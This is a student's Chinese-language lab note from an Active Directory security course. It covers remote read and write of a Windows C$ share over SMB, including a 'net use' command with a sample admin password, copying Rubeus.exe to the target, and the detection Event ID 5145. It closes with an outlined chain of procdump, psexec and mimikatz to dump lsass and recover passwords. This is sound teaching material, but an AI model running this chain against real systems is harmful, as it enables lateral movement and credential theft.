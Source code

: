 ```yaml
---
title: NTUSTISC - AD Note - Lab(SMB遠端讀寫)
tags: [NTUSTISC, AD, information security]

category: "Security/Course/NTUST ISC/AD/4. 遠端執行-讀檔"
---
```


# NTUSTISC - AD Note - Lab(SMB遠端讀寫)
<!-- more -->
[TOC]

Lecture Video: [ 2022/05/11 AD 安全 2 ](https://youtu.be/ubNMQ7_dcm0?si=26g2Lz2CB-O-7S5d)

## Lab
這個lab主要和之前不太一樣的地方在於都是利用SMB的功能達到遠端電腦讀寫的效果，雖然遠端執行也可以做到，但這樣會比較方便

### ==遠端讀寫(w/ GUI)==
1. Open File Explorer
2. Enter `\\<IP>\c$`
For example: `\\192.168.222.128\c$`
3. Login Local Admin
![](https://hackmd.io/_uploads/S1uCNUBlp.png)

* Result
    我在Win10中利用上述步驟，成功讀取到Win2016的資料
    ![](https://hackmd.io/_uploads/HJbEr8Bxa.png)

### ==遠端讀寫(w/o GUI)==
沒有GUI的情況就需要先掛載遠端的C槽在本地端，然後才可以進行後續的讀寫，有時候他會跳出錯誤
* Cheat Sheet
    ```bash
    $ net use \\<IP>\C$ "<password>" /user:<username>
    ```
    :::spoiler Result
    ```bash
    $ net use \\192.168.222.128\C$ "1qaz@WSX3edc" /user:administrator # 掛載遠端磁碟
    命令已經成功完成。
    $ net use # 查看已掛載的遠端磁碟
    會記錄新的網路連線。


    狀態       本機        遠端                    網路

    -------------------------------------------------------------------------------
    OK                     \\192.168.222.128\C$      Microsoft Windows Network
    命令已經成功完成。
    $ copy Rubeus.exe \\192.168.222.128\C$
    複製了         1 個檔案。
    ```
    ![](https://hackmd.io/_uploads/BykOL8rgT.png)
    可以看到Win2016的C槽中多了一個Rubeus.exe的檔案，代表成功
    :::

### ==How to Detect SMB Access==
Event ID: 5145
預設不開，因為會有大量的event湧入，除非設定有存取c$的filter，就會少非常多，因為遠端存取c槽本身就蠻可疑的，所以偵測到非法存取的機率就蠻高的

## ==組合技==
1. 利用SMB開進去遠端檔案總管，然後把procdump.exe送過去(忘記procdump.exe可以複習一下[NTUSTISC - AD Note - Lab(其他方法得到lsass.dmp)](https://hackmd.io/@SBK6401/S16T17NCn))
2. 使用psexec.exe遠端執行procdump.exe就可以取得lsass的memory dump
3. 再利用SMB把dump result取回本機
4. 在本地端使用mimikatz以便取得更多密碼